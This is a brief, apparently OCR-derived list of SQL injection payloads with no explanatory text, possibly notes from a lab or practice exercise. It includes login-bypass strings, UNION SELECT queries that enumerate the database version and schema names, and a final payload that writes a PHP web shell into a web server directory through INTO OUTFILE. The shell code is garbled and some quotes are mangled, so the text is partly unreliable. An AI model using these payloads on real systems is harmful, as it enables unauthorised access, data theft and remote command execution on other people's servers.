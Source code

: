 admin’ OR ‘1’=’1’ -- -
admin' or '1'='1'-- -
cn’ UNION select 1,2,3 4,5 -- -
' UNION SELECT 1,2,3,4,5-- -
cn’ UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA -- -
' UNION SELECT 1,@@version,3,4,5-- -
' UNION SELECT 1, schema_name, 3, 4, 5 FROM INFORMATION_SCHEMA.SCHEMATA-- -
cn’ union select “”,’<?($_REQUEST[0]); ?>’, “”, “”,”” into outfile ‘/var/www/html/dashboard/shell.php’ -- -

